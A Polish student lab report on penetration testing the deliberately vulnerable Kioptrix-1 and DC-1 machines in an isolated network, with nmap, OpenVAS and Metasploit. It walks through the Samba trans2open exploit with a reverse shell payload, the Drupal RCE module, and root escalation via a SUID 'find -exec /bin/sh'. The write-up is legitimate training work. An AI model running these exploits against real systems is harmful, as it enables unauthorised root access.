


# **WCYB - Projekt nr 2 - Testy bezpieczeństwa**

- [**WCYB - Projekt nr 2 - Testy bezpieczeństwa**](#wcyb---projekt-nr-2---testy-bezpieczeństwa)
  - [**Cele zadania**](#cele-zadania)
  - [**1. Sieć wewnętrzna, skanowanie sieci.**](#1-sieć-wewnętrzna-skanowanie-sieci)
  - [**2. Skanowanie podatności**](#2-skanowanie-podatności)
    - [**2.1. Skanowanie Kioptrix-1**](#21-skanowanie-kioptrix-1)
    - [**2.2. Skanowanie DC-1**](#22-skanowanie-dc-1)
    - [**2.3. Wnioski**](#23-wnioski)
  - [**3. Eksploitacja hosta Kioptrix-1**](#3-eksploitacja-hosta-kioptrix-1)
    - [**3.1. Skanowanie portów oraz identyfikacja podatności**](#31-skanowanie-portów-oraz-identyfikacja-podatności)
    - [**3.2. Wykonania exploita**](#32-wykonania-exploita)
  - [**4. Eksploitacja hosta DC-1**](#4-eksploitacja-hosta-dc-1)
    - [**4.1. Skanowanie portów i identyfikacja exploita**](#41-skanowanie-portów-i-identyfikacja-exploita)
    - [**4.2. Wykonania exploita**](#42-wykonania-exploita)
  - [**5. Wnioski Końcowe**](#5-wnioski-końcowe)
  - [**Appendix A: Raport skanowania dla hosta Kioptrix-1**](#appendix-a-raport-skanowania-dla-hosta-kioptrix-1)
  - [**Appendix B: Raport skanowania dla hosta DC-1**](#appendix-b-raport-skanowania-dla-hosta-dc-1)
  - [**Appendix C: Zrzut używanych komend**](#appendix-c-zrzut-używanych-komend)

## **Cele zadania**

Celem zadania nr 2 jest:
1. Utworzenie sieci wewnętrznej składającej się z Kali Linuxa oraz 2 pobranych maszyn, w naszym przypadku
te maszyny to: Kioptrix 1 oraz DC-1.
2. Wykonanie skanowania za pomocą wybranego skanera podatności, my użyjemy OpenVasa.
3. Zrealizowanie testów penetracyjnych dla każdej z maszyn.

## **1. Sieć wewnętrzna, skanowanie sieci.**

**Cel**: Utworzyć sieć wewnętrzną, dokonać skanowania sieci w celu poznania adresów IP maszyn **DC-1** oraz **Kioptrix-1**.

W celu stworzenia sieci wewnętrznej odpowiednio konfigurujemy ustawienia każdej maszyny na poziomie VMWare.
W ustawieniach Network Adaptera wybieramy opcję Custom: Specific virtual network, z listy wybieramy pozycję *VMnet8 (NAT)* (czynność tą powtarzamy dla reszty maszyn).

**Napotkany problem**: pomimo takiej samej konfiguracji Kali Linux nie widział maszyny Kioptrix-1.

**Rozwiązanie**: Modyfikacja pliku Kioptix Level 1 (plik z konfiguracją) w edytorze tekstowym, należało zmienić
`ethernet0.networkName = "Bridged"` na `ethernet0.networkName = "NAT"`.

Teraz możemy wziąć się za skanowanie sieci - robimy to żeby móc poznać adresy IP naszych podatnych maszyn. Na początku jednak musimy poznać adres IP samego Kali Linux, wpisujemy zatem polecenie:

    ifconfig

Otrzymujemy informację że IP Kaliego to **192.168.138.132** a maska sieci to **255.255.255.0 (/24)**. Zatem IP naszej sieci to **192.168.138.0/24**. 

Możemy teraz wykorzystać tę informację aby znaleźc adresy
IP maszyn **Kioptrix-1** oraz **DC-1**. Korzystamy z polecenia:
    
     sudo netdiscover -r 192.168.138.0/24. 
Adresy **192.168.138.135, 192.168.138.136** to adresy odpowiednio: **DC-1** oraz **Kioptrix-1.**

## **2. Skanowanie podatności**

### **2.1. Skanowanie Kioptrix-1**
**Cel**: Zapoznanie się z stanem bezpieczeństwa maszyny **Kioptrix-1**.

Uruchamiamy OpenVas'a, tworzymy nowy cel (target) i zadanie (task). Konfiguracja znajduje się poniżej, takiej samej konfiguracji użyjemy również dla maszyny **DC-1** (oczywiście będzie różniła się tylko adresem IP).

Po paru minutach otrzymujemy pełny raport, OpenVas ocenił *seveirty* **Kioptrix-1** na 7.5 punkta, jako najpoważniejsze podatności wyznaczył:
* Webalizer XSS
* Przestrzały protokół SSH-1

Poniżej znajduje się skrócony rezultat naszego skanowania. Pełny raport skanowania hosta **Kioptrix-1** można zobaczyć na końcu tego dokumentu lub [tutaj](https://wutwaw-my.sharepoint.com/:b:/g/personal/01178310_pw_edu_pl/EbIh3KzJnvJOs0u6R1GLi_QBvg0cD_dU8V8oqI7dRolawg?e=wde3WD).

### **2.2. Skanowanie DC-1**
**Cel**: Zapoznanie się z stanem bezpieczeństwa maszyny **DC-1**.

Ponawiamy czynności jakie wykonaliśmy podczas skanowania **Kioptrix-1**, tzn. tworzymy nowy cel i zadanie, tym
razem na IP maszyny **DC-1** (tj.192.168.138.135). Po zakończeniu skanowania znów otrzymujemy raport (dostępny [tutaj](https://wutwaw-my.sharepoint.com/:b:/g/personal/01178310_pw_edu_pl/ETRBYOSsDoBJn2gqAqdPAqQB_jx5W6z0LbTdRGHxeuaNjA?e=EJvEL6), lub na końcu dokumentu). Poniżej znajduje się skrócony rezultat naszego skanowania. Najpoważniejszymi podatnościami są:
* OS End of Life - przestrzały system operacyjny
* Wiele podatności wskazanych przez OpenVasa są powiązane z systemem zarządzania treścią strony WWW (CMS), a konkretniej to z *Drupalem*.
  

### **2.3. Wnioski**

OpenVas wskazał wiele ciekawych podatności, które być może wykorzystamy. Jednak jest jeszcze za wcześnie aby wskazać z której konkretnie podatności skorzystamy - będziemy musieli przejść jeszcze przez kila etapów np. będziemy musieli dokonać skanowania portów.

## **3. Eksploitacja hosta Kioptrix-1**

### **3.1. Skanowanie portów oraz identyfikacja podatności**

**Cel:** dowiedzieć się na jakich portach działa **Kioptrix-1**, dokonać wykrycia wersji usług.

Używamy polecenia:

    sudo nmap 192.168.138.136 -sV

Widzimy że nie otrzymaliśmy konkretnej wersji dla usługi
netbios-ssn tzn. otrzymaliśmy tylko samo smb, w celu zbadania konkretnej wersji tej usługi użyjemy narzędzia
metasploit. Sambę chcemy zbadać gdyż jej konkretne wersje mogą służyć do wykonania *buffer overflow*.

Uruchamiamy zatem *metasploit*, wpisujemy polecenie:

    search smb_ver

Uzyskujemy tylko jeden wynik więc wpisujemy
`use 0`, to narzędzie pozwoli nam ustalić konkretną wersję samby.

Wykryta wersja *Samby* to **Samba 2.2.1a**, robimy rozpoznanie w internecie i dowiadujemy się że ta wersja jest podatna na atak *buffer overflow*.

Wpisujemy teraz w metasploicie frazę: 

    search trans2open 

Otrzymujemy 4 wyniki, z czego opcja nr 1 jest
przeznaczona na Linuxa, więc z niej będziemy korzystać.

### **3.2. Wykonania exploita**
**Cel:** Zdobycie *roota*

Należy teraz odpowiednio skonfigurować nasz exploit uruchamiamy polecenie options w celu sprawdzenia jakie informacje należy jeszcze podać, widzimy że brakuje RHOSTS, czyli IP naszego Kioptrix-1, wpisujemy więc:

    set RHOSTS 192.168.138.136

Teraz zmieniamy payloada z domyślnego na: `generic/shell_reverse_tcp`. Ostatecznie wpisujemy polecenie
`exploit`. Jak widać mamy też uprawnienia *root*.

Celem było zdobycie *roota*, co właśnie osiągnęliśmy, Kioptrix-1 nie posiada flagi końcowej (w przeciwieństwie DC-1).

## **4. Eksploitacja hosta DC-1**

### **4.1. Skanowanie portów i identyfikacja exploita**

**Cel:** dowiedzieć się na jakich portach działa **DC-1**, dokonać wykrycia wersji usług.

Uruchamiamy polecenie:

    sudo nmap 192.168.138.135 -sV -O

Otrzymaliśmy 3 usługi, wersje mamy podane, na tym etapie nic więcej nie zdziałamy.

Należy zajrzeć teraz do raportu który wygenerował *OpenVas* - na pierwszym miejscu znajduje się podatność "Drupal
Core Critical RCE Vulnerability", Drupal generalnie jest systemem zarządzania treścią strony (CMS). Co więcej jak
wpiszemy w przeglądarce adres 192.168.138.135 otrzymamy stronę Drupala, możemy zatem sprawdzić w Metasploit
czy jest może jakiś exploit wykorzystujący tą podatność.

Uruchamiamy *Metasploit* i wpisujemy frazę:

    search drupal 

 otrzymujemy kilka wyników my spróbujemy skorzystać z exploita pierwszego wpisujemy więc: `use 1`.

 

 ### **4.2. Wykonania exploita**

 Standardowo konfigurujemy naszego exploita, ustawiamy RHOSTS poleceniem: `set RHOSTS 192.168.138.135`, następnie wpisujemy `exploit` utworzyła nam się sesja *meterpretera*, w niej jednak za dużo nie zdziałamy więc wywołujemy powłokę *shell*, z kolei następnym krokiem będzie wywołanie */bin./bash/* wykorzystamy do tego moduł *pty* oraz *Pythona*.
Wpisujemy polecenie: 

    python -c ’import pty; pty.spawn("/bin/bash")’.

Później szukamy pliku z uprawnieniem *SUID*. *SUID* jest specjalnym uprawnieniem dotyczącym skryptów, jeśli bit
*SUID* jest ustawiony, po uruchomieniu polecenia *UID* staje się identyfikatorem właściciela pliku, a nie użytkownika,
który go uruchamia. Wynika więc z tego że, plik z bitem *SUID* zapewnia tymczasową eskalację uprawnień. Uruchamiamy zatem
polecenie:

     find / -perm -u=s -type f 2>/dev/null.

Widzimy że samo polecenie `find` ma uprawnienie *SUID*, więc możemy wykonywać polecenie jako *root*. Tworzymy
zatem teraz nowy plik *"abc"* komendą `touch abc` (dzięki temu będziemy mogli wykonywać polecenia *roota*). 

Teraz
udowodnimy że rzeczywiście korzystając z komendy find tymczasowo podnosimy uprawnienia, wpisujemy polecenie:

    find abc -exec "whoami" \; 

Jak widać na rysunku poniższym faktycznie używając polecenia find tymczasowo podnosimy uprawnienia

Teraz będziemy chcieli uruchomić powłokę shell jako root, wpisujemy więc polecenie: 

    find abc -exec "/bin/sh" \;

Jak widać na rysunku poniższym otrzymaliśmy *roota*, od razu wchodzimy do katalogu `/root`, wypisujemy jego zawartość
polecniem `ls`. Mamy finalną flagę, otwieramy plik poleceniem `cat thefinalflag.text`.

## **5. Wnioski Końcowe**

Po przeprowadzeniu testów penetracyjnych tych maszyn możemy wyciągnąć ciekawe wnioski:
* Skanery podatności nie są perfekcyjne, dobitnym tego przykładem jest brak wymienionej podatności *trans2open* w
wygenerowanym przez *OpenVas* raporcie dotyczącym maszyny **Kioptrix-1**.

* Eskalacje uprawnień można przeprowadzać na bardzo różne sposoby, dobrym tego przykładem jest eskalacja
uprawnień po eksploitacji hosta **DC-1**.

* Jeżeli chcemy dobrze przeprowadzać testy penetracyjne to trzeba bardzo dobrze znać system operacyjny
danej maszyny żeby poruszać się po nim płynnie, również dobrym tego przykładem była eskalacja uprawnień i użycie komendy `find` na hoście **DC-1**, przydatna również była znajomość definicji bitu *SUID*.

## **Appendix A: Raport skanowania dla hosta Kioptrix-1**
Raport dostępny w PDF: raport_wynikow.pdf

## **Appendix B: Raport skanowania dla hosta DC-1**
Raport dostępny w PDF: raport_wynikow.pdf

## **Appendix C: Zrzut używanych komend**

**Odkrywanie IP maszyn:**

    sudo netdiscover -r <IP sieci np. 192.168.138.0/24>

**Skanowanie usług** 

    sudo nmap <IP hosta, np. 192.168.138.135> -sV

**Komendy użyte w Metasploit, Meterpreter**:

Wyszukiwanie frazy:

    search <fraza, słowo klucz, np. trans2open, drupal> 

Wykorzystanie danego exploita:

    use <numer exploita, nazwa exploita>

Sprawdzenie konfiguracja exploita/payloada

    options

Przekazanie argumentu:

    set <nazwa opcji np. RHOSTS> <przekazywany argument, np. IP>

Uruchomienie exploita:

    exploit

Wywołanie powłoki *shell*:

    shell

**Polecenia systemowe**

Wypisuje numery UID i GID aktualnego użytkownika:

    id

Wyświetlenie nazwy aktualnego użytkownika

    whoami

Uruchomienie bash'a przy pomocy *Pythona* i modułu *pty*:

    python -c ’import pty; pty.spawn("/bin/bash")’ 

Polecenie wykorzystane przy wyszukiwaniu poleceń które umożliwią nam tymczasową eskalację:

    find / -perm -u=s -type f 2>/dev/null

Tworzenie nowego pliku:

    touch <nazwa pliku, np. abc>

Znalezienie pliku abc i uruchomienie polecenia whoami

    find abc -exec "whoami" 

 Przejście do innego katalogu:

    cd <ścieżka, np. /root>

Wypisanie zawartości katalogu:

    ls

Wyświetlenie zawartości pliku

    cat <nazwa pliku, np. thefinalflag.txt>
    

